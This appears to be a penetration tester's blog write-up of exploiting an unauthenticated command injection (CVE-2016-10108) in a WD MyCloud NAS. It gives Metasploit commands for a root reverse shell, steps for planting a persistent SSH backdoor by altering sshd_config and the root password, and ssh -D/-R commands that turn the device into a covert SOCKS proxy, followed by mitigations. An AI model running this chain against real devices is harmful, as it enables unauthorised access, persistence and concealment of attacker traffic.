



In this blog, I'll walk through how an **unauthenticated command injection** in a WD MyCloud NAS gave me a reverse shell as **root**, how I bootstrapped a persistent **SSH backdoor** on a device that didn't even have SSH running, and how I turned that NAS into a **covert SOCKS proxy** with a single SSH flag.

## Prologue
> **"There is no cloud. It's just someone else's computer."**  
> *- Common saying in information security*

The Western Digital MyCloud sits in a server room or under a desk, quietly storing backups, documents, and shared files for an entire team. Its name says "cloud," but it's a Linux box running on an ARM processor with its own network interface and its own IP address. When it has an unpatched vulnerability in its web interface, the device trusted with your data becomes another computer on the network that an attacker can use.

## What is WD MyCloud?
**Western Digital MyCloud** is a line of **Network Attached Storage (NAS)** devices designed for personal and small-business use. They provide file sharing, backups, and remote access through a web-based management interface over **HTTPS (port 443)**.

Under the hood, a MyCloud runs **embedded Linux** on an **ARM processor**. It has a full filesystem, a web server, and network services, everything a general-purpose Linux box has, packaged into a device that most people treat as an appliance and never think to patch.

## The Vulnerability - Unauthenticated Command Injection
The MyCloud web interface contains a **command injection vulnerability** that allows a remote, completely **unauthenticated** attacker to execute arbitrary operating-system commands on the device. No login, no session, no credential of any kind is required. A crafted HTTP request to the HTTPS management interface is enough.

Metasploit ships a ready-made module for this: **`exploit/linux/http/wd_mycloud_unauthenticated_cmd_injection`**.

## Exploitation - Reverse Shell
I loaded the Metasploit module, pointed it at the target, and ran it:
```bash
use exploit/linux/http/wd_mycloud_unauthenticated_cmd_injection
set RHOSTS x.x.x.x
exploit
```
<br />
The module confirmed the target was a WD MyCloud, verified the injection point, and delivered a **reverse shell** back to my machine:<br />
<br />

`uname -a` confirmed what I'd landed on:
```
Linux WDMyCloudEX4100 3.10.39 #1 SMP ... armv7l GNU/Linux
```
A **WD MyCloud EX4100**, running a kernel from 2016, on a 32-bit ARM processor. Root-level command execution on the NAS, obtained without a single credential.

## Bootstrapping SSH from Scratch
The reverse shell was functional but fragile. For a stable, persistent connection (and for the proxy that comes later), I needed **SSH**. The problem: the device didn't have an SSH daemon running, and didn't have host keys generated. I had to build the entire SSH infrastructure from the reverse shell.

### Generating Host Keys
SSH refuses to start without host keys. I generated them on the device:
```bash
/usr/bin/ssh-keygen -t rsa -f /etc/ssh/ssh_host_rsa_key
/usr/bin/ssh-keygen -t dsa -f /etc/ssh/ssh_host_dsa_key
```
No passphrase on either key, since they're host keys.

### Configuring the Daemon
I edited the SSH daemon configuration (`/usr/etc/sshd_config`) to allow root login and set a non-standard port, and changed the root password in `/etc/shadow` so I could authenticate over SSH.

### Starting SSH
With keys and config in place, I started the daemon in the background:
```bash
/usr/sbin/sshd &
```

### SSH as Root
From my machine, I connected directly:
```bash
ssh -p 42822 root@x.x.x.x
```
<br />
**uid=0(root)**, a proper interactive root shell over SSH. The connection survives indefinitely, survives reboots of the attacker's machine, and provides the stable tunnel needed for what comes next.

## Turning the NAS into a Network Proxy
SSH has a built-in feature that turns any SSH connection into a **SOCKS proxy** with a single flag: **`-D`** (dynamic port forwarding).

```bash
ssh -p 42822 -D 1080 -N root@x.x.x.x
```

That's it. One command, and a **SOCKS5 proxy** is now listening on `127.0.0.1:1080` on the attacker's machine. Every connection sent through that proxy travels through the SSH tunnel and exits from the NAS's network interface.

* **`-D 1080`** opens a local SOCKS proxy on port 1080
* **`-N`** tells SSH not to execute a remote command (just keep the tunnel open)

Any application that supports SOCKS5 (a browser, `proxychains`, `curl --socks5`, scanners) can now route its traffic through the NAS. The destination sees the NAS's IP address, not the attacker's. The traffic looks like a NAS doing what NAS devices do: talking to the network.

No additional tools, no chisel, no Meterpreter, just SSH doing what SSH was designed to do.

### Forward vs. Reverse
The `ssh -D` approach works when the attacker can reach the NAS directly. If the NAS is behind a firewall that blocks inbound connections, the same trick works in reverse using **`ssh -R`** from the NAS back to the attacker, carrying the SOCKS proxy through the outbound connection.

## Attack Path
The full chain, from an unpatched NAS to covert network proxy:
1. Discover a WD MyCloud NAS on the network (port 443).
2. Exploit the **unauthenticated command injection** via Metasploit.
3. Obtain a **reverse shell** as root.
4. Generate SSH host keys on the device.
5. Configure and start the **SSH daemon**.
6. Change the root password for SSH authentication.
7. **SSH in as root** from the attacker's machine.
8. Run **`ssh -D`** to create a local **SOCKS5 proxy** tunneled through the NAS.
9. Point any application at the SOCKS proxy.
10. All traffic now exits from the **NAS's IP address**, the attacker is hidden.

## Mitigations
A compromised NAS is a worst-case scenario: it holds your data *and* gives the attacker a network foothold. To break this chain:
- **Update firmware immediately.** WD has released patches for this vulnerability. Every unpatched MyCloud device is an unauthenticated root shell.
- **Never expose the management interface to untrusted networks.** The HTTPS interface (port 443) should only be reachable from a management VLAN or specific admin workstations, never the general LAN.
- **Disable remote access features** unless actively needed. WD MyCloud's "remote access" and "cloud" features widen the attack surface significantly.
- **Segment NAS devices.** A NAS should be on a dedicated storage VLAN with strict firewall rules. It needs to talk to clients on specific ports (SMB, NFS), not to the entire network.
- **Monitor for unusual services.** A NAS suddenly listening on a new port (like SSH on 42822) is a strong indicator of compromise.
- **Audit stored data.** After any NAS compromise, assume all stored files have been accessed. Rotate credentials stored on or accessible through the NAS.

### Note
The above measures reduce risk significantly but do not guarantee 100% protection - defence in depth is the goal.

## Conclusion
A NAS is a computer. It runs Linux, has root, and sits on the network with access to everything that talks to it. When its web interface carries an unpatched command injection, a single Metasploit module turns it into a root shell. From there, SSH is bootstrapped from nothing, and one flag (`-D`) turns the entire connection into a SOCKS proxy. No extra tools, no payloads, just the device's own operating system turned against the network it serves.

The NAS stores your files, serves your backups, and is trusted by every machine that mounts it. That trust is exactly what makes it the perfect place to route traffic nobody will question.

## References
* [CVE-2016-10108 - WD MyCloud Command Injection (NVD)](https://nvd.nist.gov/vuln/detail/CVE-2016-10108)
* [Metasploit - WD MyCloud Unauthenticated Command Injection](https://docs.rapid7.com/metasploit/)
* [SSH Dynamic Port Forwarding (SOCKS Proxy)](https://man.openbsd.org/ssh#D)
* [HackTricks - Pentesting NAS/Storage](https://book.hacktricks.xyz/)
* [Western Digital Security Advisories](https://www.westerndigital.com/support/product-security)
